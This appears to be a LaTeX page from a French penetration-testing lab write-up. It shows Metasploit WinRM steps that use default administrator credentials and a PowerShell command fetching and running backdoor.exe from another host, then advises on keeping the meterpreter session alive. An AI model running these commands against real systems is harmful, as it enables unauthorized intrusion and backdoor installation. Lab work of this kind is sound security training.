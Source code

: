 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{enumerate}
            \begin{itemize}
                \item \texttt{\footnotesize use auxiliary/scanner/winrm/winrm\_cmd}
                \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
                \item \texttt{\footnotesize set USERNAME administrator}
                \item \texttt{\footnotesize set PASSWORD vagrant}
                \item \texttt{\footnotesize set CMD powershell; Invoke-RestMethod http://192.168.1.3/backdoor.exe} \\ \texttt{\footnotesize -OutFile backdoor.exe; ./backdoor.exe}
                \item \texttt{\footnotesize run}
            \end{itemize}
        \end{enumerate}
        C'est un \textcolor{blue}{\textbf{succès}}, j'ai réussi à obtenir une session meterpreter comme vous pouvez le voir dans le terminal du dessus de la figure \ref{fig:SuccessWinRM2}.
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.99\linewidth]{images/success-winrm-02.PNG}
        \caption{Succès du gain d'accès avec WinRM et Powershell}
        \label{fig:SuccessWinRM2}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: il faut migrer rapidement la session meterpreter car elle se ferme lorsque le payload téléchargé s'arrête. Il s'arrête quand le module \texttt{\footnotesize scanner/winrm/winrm\_cmd} termine, c'est-à-dire qu'on a quelque secondes. Je couvre le maintien de session plus en détail dans la section sur la post-exploitation.
\end{document}
